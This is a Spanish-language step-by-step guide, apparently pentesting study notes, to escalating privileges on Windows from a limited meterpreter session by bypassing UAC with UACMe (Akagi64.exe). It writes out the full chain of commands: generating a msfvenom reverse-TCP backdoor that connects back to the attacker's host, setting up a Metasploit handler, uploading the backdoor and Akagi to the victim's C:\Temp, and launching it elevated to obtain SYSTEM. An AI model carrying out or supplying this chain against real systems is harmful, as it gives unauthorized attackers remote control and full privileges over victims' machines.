 # Escalada de privilegios en Windows con UAC bypass y UACMe (Akagi)

---

## Resumen
Este método escala privilegios desde una sesión `meterpreter` limitada usando un bypass de UAC para ejecutar una backdoor con permisos elevados (SYSTEM).  
Utiliza la herramienta **UACMe (Akagi64.exe)** para saltarse UAC y ejecutar el payload.

---

#  Identificar si se puede hacer esta escalada

 Tienes una sesión `meterpreter` como usuario que está en el grupo Administradores pero con UAC activo.  
 Verificas que UAC está activado porque no puedes, por ejemplo, cambiar la contraseña del administrador desde la shell.

---

# Pasos completos

---

## Tener sesión de `meterpreter` en el usuario limitado
Comprueba quién eres:
```
whoami
```

---

## Buscar el proceso `explorer.exe` y migrar
Para no perder la sesión, migra a un proceso estable como `explorer.exe`.

### Buscar PID de `explorer.exe`:
```
ps | grep explorer
```

Ejemplo: si devuelve PID `2448`, migramos:
```
migrate 2448
```

---

## Abrir una shell en el sistema
Desde `meterpreter`:
```
shell
```

Ver los usuarios:
```
net user
```

Intentar cambiar la contraseña del administrador (fallará por UAC):
```
net user administrator password123
```

---

## Crear un payload con `msfvenom`
Genera una backdoor que se conectará a tu máquina con privilegios elevados:
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<TU_IP> LPORT=<PUERTO> -f exe > backdoor.exe
```

---

## Preparar el `multi/handler` en otra consola

### Mantener la sesión original
Pon la sesión actual en segundo plano:
```
background
```

Ver las sesiones activas:
```
sessions -l
```

Puedes volver a ella más tarde con:
```
sessions -i <número de sesión>
```

---

### Abrir otra consola y configurar el handler
En otra terminal:
```
msfconsole
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST <TU_IP>
set LPORT <PUERTO>
exploit
```
Esto quedará a la espera de la conexión de la backdoor.

---

## Subir los archivos necesarios

En la consola con la sesión original:
### Crear carpeta temporal en C:
```
mkdir C:\Temp
```

Subir la backdoor:
```
upload backdoor.exe C:\\Temp\\backdoor.exe
```

Subir la herramienta UACMe (`Akagi64.exe`):
```
upload /root/Desktop/tools/UACME/Akagi64.exe C:\\Temp\\Akagi64.exe
```

---

##  Ejecutar UACMe para lanzar la backdoor con privilegios elevados
Abre una shell y ejecuta UACMe con el método `23` apuntando a la backdoor:
```
shell
cd C:\Temp
.\Akagi64.exe 23 C:\Temp\backdoor.exe
```

---

##  Recuperar la sesión elevada
En la segunda consola, donde tienes el `multi/handler`, deberías recibir una nueva sesión con privilegios elevados.

Verifica que ahora eres SYSTEM:
```
getuid
```

---

# Resumen de comandos clave

| Paso                                    | Comando / Acción                                        |
|----------------------------------------|---------------------------------------------------------|
| Ver usuario actual                     | `whoami`                                                |
| Buscar `explorer.exe`                  | `ps | grep explorer`                                    |
| Migrar a `explorer.exe`                | `migrate 2448`                                          |
| Abrir shell                            | `shell`                                                 |
| Ver usuarios                           | `net user`                                              |
| Intentar cambiar contraseña            | `net user administrator password123`                   |
| Crear backdoor                         | `msfvenom -p windows/meterpreter/reverse_tcp ...`      |
| Mantener sesión original              | `background` + `sessions -l` + `sessions -i <id>`     |
| Abrir handler en otra consola          | `use multi/handler` y configurar payload, `exploit`   |
| Crear carpeta en víctima               | `mkdir C:\Temp`                                         |
| Subir backdoor                         | `upload backdoor.exe C:\\Temp\\backdoor.exe`           |
| Subir Akagi                            | `upload Akagi64.exe C:\\Temp\\Akagi64.exe`             |
| Ejecutar UACMe                         | `.\Akagi64.exe 23 C:\Temp\backdoor.exe`                |
| Verificar sesión elevada               | `getuid`                                               |
